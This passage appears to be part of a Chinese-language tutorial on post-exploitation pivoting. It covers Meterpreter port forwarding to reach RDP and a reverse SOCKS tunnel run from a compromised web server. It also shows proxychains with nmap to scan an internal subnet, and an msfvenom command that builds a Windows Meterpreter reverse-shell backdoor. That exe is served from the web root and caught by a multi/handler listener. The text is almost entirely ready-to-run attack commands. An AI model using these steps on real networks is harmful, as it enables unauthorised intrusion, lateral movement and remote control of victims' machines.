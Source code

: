 映射端口

```
portfwd add -L 192.168.43.224 -l 2020 -p 80 -r 10.10.10.128
```

这是将`10.10.10.128`映射到`192.168.43.224:2020`

转发端口

```
portfwd add -l 5555 -p 3389 -r 192.168.0.149
rdesktop 127.1.1.0: 5555
```

```
查看列表
portfwd list
清空列表
portfwd flush
```

## 三、Socket隧道

编译SSOCKS程序

```
./configure
make
cd src
./rcsocks -l 1088 -p 1080 -vv这样就可以直接使用了
这样kali上的链接就已经搭建好了。
/rssocks -vv -s 192.168.10.50:1080 这个是在web服务器上执行
```

使用proxychains

```
/etc/proxychains.conf  
```

`用kali 里面的nmap扫描 10.10.10.128`

`proxychains nmap –Pn -sT 10.10.10.128`

进行内网扫描UDP的数据是扫描不出来的

扫描内网的机器

```
nmap -Pn -sT 10.10.10.0/24
```

## 四、跨路由扫描

```
生成metasploit后门windows
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.0.196  lport=12345 -f exe >/var/www/html/s.exe
kali监听
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.0.196
set lport 12345
exploit
```
